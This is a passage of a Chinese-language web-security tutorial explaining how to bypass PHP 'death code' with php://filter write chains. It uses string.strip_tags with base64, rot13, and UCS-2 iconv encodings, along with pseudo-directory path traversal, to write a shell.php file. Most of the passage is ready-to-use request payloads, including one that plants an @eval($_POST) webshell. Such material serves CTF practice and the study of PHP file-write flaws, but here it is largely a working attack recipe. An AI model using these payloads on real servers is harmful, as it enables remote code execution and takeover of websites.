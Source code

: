 在前面说到过用string.strip_tag过滤器可以去除php标签

那不就可以这样

```
?content=php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2b.php

%2b是+的url编码,不然+会被当做空格处理
```

这样虽然可以生成文件,但是文件名是有问题的,我们可以用伪目录的方式去将`?>PD9waHAgcGhwaW5mbygpOz8%2b`伪装成一个目录

```
?content=php://filter/write=string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2b/../shell.php
```

这样`?>PD9waHAgcGhwaW5mbygpOz8%2b`会被当做一个目录,再../跳回当前目录写入shell.php

记住一定要加上前面的?>闭合php标签,不然我们写入的shell也会被string.strip_tags去除

有一个缺点就是这种利用手法在windows下利用不成功，因为文件名里面的`? >`等这些是特殊字符会导致文件的创建失败,以及对于这种问题的解决方法：使用`convert.iconv.utf-8.utf-7|convert.base64-decode`进行绕过

### rot13绕过

并不是所有的编码都会受限于'='

这里直接用rot13

```
?content=php://filter/write=string.rot13|<?cuc cucvasb();?>|/resource=shell.php

?content=php://filter/write=string.rot13/resource=<?cuc cucvasb();?>/../shell.php
```

写入的shell.php

![image-20210911152248854](images/20.png)

### convert.iconv.*

这个转化器起到的效果和base64有点相似,都是先编码再解码，然后在过程中去掉死亡代码

#### ucs-2

通过UCS-2方式，对目标字符串进行2位一反转（这里的2LE和2BE可以看作是小端和大端的列子），也就是说构造的恶意代码需要是UCS-2中2的倍数，不然不能进行正常反转（多余不满足的字符串会被截断），那我们就可以利用这种过滤器进行编码转换绕过了

```
echo iconv("UCS-2LE","UCS-2BE",'<?php @eval($_POST[ab]);?>');
```


payload:

```
?content=php://filter/convert.iconv.UCS-2LE.UCS-2BE|?<hp pe@av(l_$OPTSa[]b;)>?/resource=shell.php
```
